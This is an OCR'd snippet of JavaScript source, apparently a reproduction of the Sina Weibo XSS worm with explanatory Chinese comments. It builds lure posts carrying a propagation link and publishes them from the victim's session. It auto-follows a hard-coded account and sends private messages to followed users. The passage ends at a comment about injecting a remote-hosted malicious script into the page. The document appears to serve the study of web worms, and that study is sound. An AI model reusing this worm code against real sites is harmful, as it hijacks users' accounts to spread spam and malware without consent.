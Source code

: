 ```javascript
        '可以监听别人手机的软件：',
        '个税起征点有望提到 4000：']; 

    //随机选取话题,加上之前的传播连接作为微博内容 
    var msg = msgs[Math.floor(Math.random()*msgs.length)] + link;
    msg = encodeURIComponent(msg); //对内容进行 Url 编码
    return msg;
}
// 利用 Ajax 发送 POST 请求
function post(url,data,sync){
    xmlHttp = createXHR();
    xmlHttp.open("POST",url,sync);
    xmlHttp.setRequestHeader("Accept","text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8");
    xmlHttp.setRequestHeader("Content-Type","application/x-www-form-urlencoded; charset=UTF-8");
    xmlHttp.send(data);
}
// 发表微博，话题随机
function publish(){
    url = 'http://weibo.com/mblog/publish.php?rnd=' + new Date().getTime();
    data = 'content=' + random_msg() + '&pic=&styleid=2&retcode='; //使用 random_msg 生成随机话题
    post(url,data,true);
}
// 自动关注用户
function follow(){
    url = 'http://weibo.com/attention/aj_addfollow.php?refer_sort=profile&atnId=profile&rnd=' + new Date().getTime();
    // 使用当前页面存储的$CONFIG.$uid 构造自动关注数据包
    data = 'uid=' + 2201270010 + '&fromuid=' + $CONFIG.$uid + '&refer_sort=profile&atnId=profile';
    post(url,data,true);
}
// 发送私信
function message(){
    url = 'http://weibo.com/' + $CONFIG.$uid + '/follow'; //构造用户关注用户列表页 Url
    ids = getappkey(url); //获取被关注用户的 Appkey 数组
    id = ids.split('||'); //分割出每个被关注用户的 Appkey
    for(i=0;i<id.length - 1 & i<5;i++){
        //构造私信发送 Url
        msgurl = 'http://weibo.com/message/addmsg.php?rnd=' + new Date().getTime();
        msg = random_msg();
        msg = encodeURIComponent(msg);
        user = encodeURIComponent(encodeURIComponent(id[i]));
        data = 'content=' + msg + '&name=' + user + '&retcode=';
        post(msgurl,data,false);  //通过 XmlHttpRequest 发送请求
    }
}
function main(){
    try{
        publish(); //模拟发表微博
    }
    catch(e){}
    try{
        follow(); //模拟关注用户
    }
    catch(e){}
    try{
        message(); //模拟发送私信
    }
    catch(e){}
}
try{
    //在当前 body 尾部插入存放在远端的 Xss 恶意脚本
```